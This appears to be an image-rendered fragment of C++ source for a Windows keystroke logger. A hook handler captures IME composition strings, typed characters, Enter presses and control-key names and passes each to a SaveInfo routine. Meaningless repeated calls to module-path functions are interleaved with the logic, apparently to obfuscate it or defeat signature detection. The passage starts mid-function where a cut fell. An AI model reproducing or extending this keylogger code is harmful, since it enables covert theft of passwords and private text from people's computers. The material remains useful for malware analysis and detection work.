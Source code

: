 ```
        ((pMsg->message != WM_IME_COMPOSITION) && (pMsg->message != WM_CHAR)) ||
        (m_dwLastMsgTime == pMsg->time)
        )
    {
        return result;
    }

    m_dwLastMsgTime = pMsg->time;

    if ((pMsg->message == WM_IME_COMPOSITION) && (pMsg->lParam & GCS_RESULTSTR))
    {
        HWND	hWnd = pMsg->hwnd;
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        HIMC	hImc = ImmGetContext(hWnd);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        LONG	strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, NULL, 0);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        // 考虑到UNICODE
        strLen += sizeof(WCHAR);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ZeroMemory(m_pTShared->str, sizeof(m_pTShared->str));
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        strLen = ImmGetCompositionString(hImc, GCS_RESULTSTR, m_pTShared->str, strLen);
        CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
        ImmReleaseContext(hWnd, hImc);
        CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
        SaveInfo(m_pTShared->str);
    }

    if (pMsg->message == WM_CHAR)
    {
        if (pMsg->wParam <= 127 && pMsg->wParam >= 20)
        {
            strChar[0] = pMsg->wParam;
            strChar[1] = TEXT('\0');
            SaveInfo(strChar);
        }
        else if (pMsg->wParam == VK_RETURN)
        {
            SaveInfo(TEXT("\r\n"));
        }
        // 控制字符
        else
        {
            CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
            memset(KeyName, 0, sizeof(KeyName));
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            if (GetKeyNameText(pMsg->lParam, &(KeyName[1]), sizeof(KeyName)-2) > 0)
            {
                KeyName[0] = TEXT('[');
                CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
                lstrcat(KeyName, TEXT("]"));
                SaveInfo(KeyName);
            }
        }
    }
    return result;
}

```

